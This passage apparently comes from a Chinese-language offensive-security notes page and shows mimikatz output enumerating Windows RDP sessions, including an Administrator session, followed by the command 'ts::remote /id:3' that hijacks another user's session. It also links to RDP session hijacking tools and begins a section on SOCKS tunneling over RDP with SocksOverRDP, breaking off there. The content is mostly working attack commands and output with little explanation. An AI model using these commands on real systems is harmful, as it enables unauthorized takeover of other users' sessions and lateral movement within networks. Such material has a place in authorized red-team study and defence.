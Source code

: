 ```console
  user : Administrator @ 10_0_8_17
  Conn : 9/27/2023 10:53:56 PM
  disc : 9/27/2023 10:53:56 PM
  logon: 9/27/2023 10:21:56 PM
  last : 9/27/2023 10:56:14 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no
  addr4: xx.xx.xx.xx

Session: 3 - RDP-Tcp#8
  state: Active (0)
  user : test @ 10_0_8_17
  Conn : 9/27/2023 10:56:06 PM
  disc : 9/27/2023 10:56:06 PM
  logon: 9/27/2023 10:28:00 PM
  last : 9/27/2023 10:56:10 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no
  addr4: xx.xx.xx.xx

Session: 4 - Console
  state: Connected (1)
  user :  @
  Conn : 9/27/2023 10:47:54 PM
  curr : 9/27/2023 10:56:14 PM
  lock : no

Session: 65536 - RDP-Tcp
  state: Listen (6)
  user :  @
  lock : no

mimikatz # ts::remote /id:3
Asking to connect from 3 to current session

> Connected to 3

mimikatz # exit
Bye!
```

其它工具：

[https://github.com/crazywifi/RDP_SessionHijacking](https://github.com/crazywifi/RDP_SessionHijacking)

[https://github.com/bohops/SharpRDPHijack](https://github.com/bohops/SharpRDPHijack)

## RDP and SOCKS Tunneling

使用 [SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) 利用 RDP 协议搭建 SOCKS 服务：
